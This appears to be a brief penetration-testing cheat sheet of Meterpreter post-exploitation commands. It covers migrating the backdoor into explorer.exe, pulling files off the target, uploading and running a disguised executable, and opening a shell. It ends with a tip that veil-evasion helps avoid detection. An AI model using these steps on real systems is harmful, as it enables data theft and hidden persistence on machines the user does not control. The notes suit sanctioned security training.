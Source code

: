 # Post Exploitation

* Assuming that one already has access to the target computer through Metasploit, we can run multiple commands on Meterpreter:

```shell
#inside meterpreter session currently

help #shows help manual

background #backgrounds current session

sessions -l #lists all current sessions

sessions -i 4 #to interact with particular session

sysinfo #shows info about target computer

ipconfig #shows all interfaces connected to target computer

ps #shows all running processes

migrate 4376 #migrates meterpreter from current PID (backdoor) to new PID (e.g. - explorer.exe)

pwd #get current working directory

ls #list all files and directories

#cd can be used to switch directories

cat test.txt #read contents of file

download test.txt #download file

upload car-image.exe #upload file

execute -f car-image.exe #execute file

shell #opens Windows Shell to run Windows commands
```

* Using metasploit and veil-evasion together is proven to be more robust and undetectable.

